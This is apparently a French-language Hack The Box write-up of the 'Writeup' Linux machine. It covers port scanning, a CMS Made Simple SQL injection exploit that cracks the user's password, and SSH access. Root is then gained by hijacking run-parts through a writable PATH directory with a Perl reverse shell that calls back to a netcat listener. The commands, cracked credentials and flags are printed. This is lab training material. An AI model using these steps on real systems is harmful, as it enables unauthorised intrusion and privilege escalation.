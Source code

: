 ```yaml
---
layout: post
title: HTB - Write Up
subtitle: Hack The Box - Linux Machine 
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [HTB, Linux, CMS Made Simple, SQLi, scp, run-parts, reverse shell, perl]
comments: false
---
```


1 - User.txt

~~~
root@Host-001:~# nmap 10.10.10.138
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-10 21:01 CEST
Nmap scan report for 10.10.10.138
Host is up (0.060s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 12.18 seconds
~~~

Les ports 80 http et 22 ssh sont ouverts.

Consulter robots.txt: http://10.10.10.138/robots.txt

On trouve:

~~~
# Disallow access to the blog until content is finished.
User-agent: * 
Disallow: /writeup/
~~~

Consulter http://10.10.10.138/writeup

Il y a plusieurs pages. On voit que l'url est http://10.10.10.138/writeup/index.php?page=writeup

On essaye avec page=flag sans résultat. On pense à du Local File Inclusion mais ne donne aucun résultat...

Wappalyser nous dis que la page utilise CMS Made Simple. La page d'admin est /admin. Ref: [https://hostpapasupport.com/log-log-cms-made-simple/](https://hostpapasupport.com/log-log-cms-made-simple/)

Essayons http://10.10.10.138/writeup/admin

Nous tombons sur une page d'authentification de type htaccess. On modifie le verbe GET mais pas possible de bypasser comme ça :( on essaye d'accéder à .htpasswd mais l'accès est interdit!

Il y a plusieurs exploits concernant CMSMS. Dans notre cas, un exploit intéressant est: [https://packetstormsecurity.com/files/152356/CMS-Made-Simple-SQL-Injection.html](https://packetstormsecurity.com/files/152356/CMS-Made-Simple-SQL-Injection.html)

Enregistrer l'exploit 'cmsmadesimple22-sql.py' et le lancer:

~~~
root@kali:~/Desktop# python cmsmadesimple22-sql.py -u http://10.10.10.138/writeup/ --crack -w /usr/share/wordlists/rockyou.txt
~~~

Résultat:

~~~
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
~~~

Ces credentials permettent de nous connecter au serveur via ssh:

~~~
root@Host-001:~# ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jkr@writeup:~$ ls
user.txt
~~~

Nous avons accès au flag de l'usager. Passons à l'accès au compte root:

2 - Root.txt

Télécharger pspy: [https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s](https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s)

Envoyer le fichier sur le serveur:

~~~
root@kali:~/Desktop# scp pspy64s jkr@10.10.10.138:/home/jkr
jkr@10.10.10.138's password: 
pspy64s                                       100% 1129KB 172.5KB/s   00:06    
root@kali:~/Desktop#
~~~

Se connecter au serveur via SSH:

~~~
root@kali:~# ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Oct  8 08:06:30 2019 from 10.10.14.14
jkr@writeup:~$ ls
pspy64s  user.txt
jkr@writeup:~$ chmod +x pspy64s 
jkr@writeup:~$ ./pspy64s

Résultat:
(...)
2019/10/08 10:56:01 CMD: UID=0    PID=2685   | /usr/sbin/CRON 
2019/10/08 10:56:01 CMD: UID=0    PID=2686   | /usr/sbin/CRON 
2019/10/08 10:56:01 CMD: UID=0    PID=2687   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2019/10/08 10:56:02 CMD: UID=0    PID=2688   | sshd: jkr [priv]  
2019/10/08 10:56:02 CMD: UID=0    PID=2689   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2019/10/08 10:56:02 CMD: UID=0    PID=2690   | run-parts --lsbsysinit /etc/update-motd.d 
2019/10/08 10:56:02 CMD: UID=0    PID=2691   | /bin/sh /etc/update-motd.d/10-uname 
2019/10/08 10:56:02 CMD: UID=0    PID=2692   | sshd: jkr [priv]  
(...)
~~~

On remarque que le compte root appel 'run-parts' et que le PATH de root est PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

Ou est situé 'run-parts':

~~~
jkr@writeup:~$ which run-parts
/bin/run-parts
~~~

Les fichiers appelés par le shell le sont dans l'ordre du PATH. 'With a real shell the directories are searched in the order they are found in the path statement. So PATH="/a:/b/1:etc..." the /a will be looked at first.' Ref: [https://www.unix.com/shell-programming-and-scripting/95208-path-dircetory-search-order.html](https://www.unix.com/shell-programming-and-scripting/95208-path-dircetory-search-order.html)

Dans notre cas nous ne pouvons pas lire les dossiers /usr/local/sbin et /usr/local/bin mais nous pouvons écrire dedans:

~~~
jkr@writeup:~$ ls -la /usr/local
total 64
drwxrwsr-x 10 root staff  4096 Apr 19 04:11 .
drwxr-xr-x 10 root root   4096 Apr 19 04:11 ..
drwx-wsr-x  2 root staff 20480 Oct 10 15:09 bin
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 etc
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 games
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 include
drwxrwsr-x  4 root staff  4096 Apr 24 13:13 lib
lrwxrwxrwx  1 root staff     9 Apr 19 04:11 man -> share/man
drwx-wsr-x  2 root staff 12288 Oct 10 14:54 sbin
drwxrwsr-x  7 root staff  4096 Apr 19 04:30 share
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 src
~~~

Tentons de créer un reverse-shell dans /usr/local/sbin. 

Nous utilisons ici perl-reverse-shell de pentestmonkey Ref: [http://pentestmonkey.net/tools/web-shells/perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

Ce shell est disponible dans Kali Linux dans /usr/share/webshells/perl/
perl-reverse-shell.pl. Ref: [https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

Modifier le shell en mettant son adresse IP (celle du tunnel tun0) et en spécifiant le port d'écoute (Ici 1234). Cf: Ref.

Envoyer le shell sur le serveur:

~~~
root@Host-001:~/Bureau# scp perl-reverse-shell.pl jkr@10.10.10.138:/home/jkr
jkr@10.10.10.138's password: 
perl-reverse-shell.pl                         100% 3714   152.7KB/s   00:00  
~~~

Ouvrir une session netcat et écouter sur le port enregisté dans perl-reverse-shell.pl

~~~
root@Host-001:~/Bureau# nc -v -n -l -p 1234
~~~

Sur le serveur, renommer et envoyer le shell dans /usr/local

jkr@writeup:~$ ls
perl-reverse-shell.pl  user.txt
jkr@writeup:~$ cp perl-reverse-shell.pl run-parts
jkr@writeup:~$ ls
perl-reverse-shell.pl  run-parts  user.txt
jkr@writeup:~$ mv run-parts /usr/local/sbin
~~~

Attendre et regarder la console ou netcat a été lancé:

~~~
root@Host-001:~/Bureau# nc -v -n -l -p 1234
listening on [any] 1234 ...
connect to [10.10.15.65] from (UNKNOWN) [10.10.10.138] 41160
 14:52:54 up 1 min,  3 users,  load average: 0.08, 0.03, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
jkr      pts/0    10.10.15.65      14:51   22.00s  0.03s  0.03s -bash
jkr      pts/1    10.10.14.30      14:51   19.00s  0.00s  0.00s -bash
jkr      pts/2    10.10.15.154     14:52    4.00s  0.00s  0.00s top
Linux writeup 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64 GNU/Linux
uid=0(root) gid=0(root) groups=0(root)
/
/usr/sbin/apache: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd root
# ls
bin
root.txt
# cat root.txt
eeba47f60b48ef92b734f9b6198d7226
~~~

**Poursuivez avec :** [Oneliner Shells](https://0xss0rz.github.io/2020-05-10-Oneliner-shells/)

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).
